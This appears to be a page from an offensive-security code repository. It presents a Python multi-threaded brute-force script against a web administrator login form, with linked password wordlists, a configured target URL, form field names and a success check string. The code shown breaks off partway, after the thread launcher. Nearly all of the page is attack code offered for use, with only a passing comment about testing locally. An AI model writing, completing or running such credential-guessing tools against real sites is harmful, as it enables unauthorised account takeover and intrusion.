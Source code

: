 # **🔑 Multi-threaded Brute-Force Login Script**

This script attempts **brute-force attacks** on a login form using a **username + password list**. It automates login attempts using **multi-threading** and a **cookie-based session** to simulate real browser behavior.

- [cain.txt](https://github.com/aw-junaid/Black-Hat-Python/blob/main/Python%20Tools/Extras/cain.txt)
- [SVN_all.txt](https://github.com/aw-junaid/Black-Hat-Python/blob/main/Python%20Tools/Extras/SVN_all.txt)

```python
import http.cookiejar
import queue
import threading
import urllib.error
import urllib.parse
import urllib.request
from abc import ABC #Abstract Base Classes 
from html.parser import HTMLParser

# global settings
user_thread = 10
username = "admin"
wordlist_file = "cain.txt"
resume = None

# target settings
# start from a local testing installation before going into the wild
target_url = "http://192.168.112.131/administrator/index.php"
target_post = "http://192.168.112.131/administrator/index.php"

username_field = "username"
password_field = "pswd"

success_check = "Administration - Control Panel"

class BruteParser(HTMLParser, ABC):
    def __init__(self):
        HTMLParser.__init__(self)
        self.tag_results = {}

    def handle_starttag(self, tag, attrs):
        if tag == "input":
            tag_name = None
            for name, value in attrs:
                if name == "name":
                    tag_name = value
                if tag_name:
                    self.tag_results[tag_name] = value 

class Bruter(object):
    def __init__(self, user, words_q):
        self.username = user
        self.password_q = words_q
        self.found = False
        print(f"Finished setting up for: {user}")

    def run_bruteforce(self):
        for thread in range(user_thread):
            t = threading.Thread(target=self.web_bruter)
            t.start()

```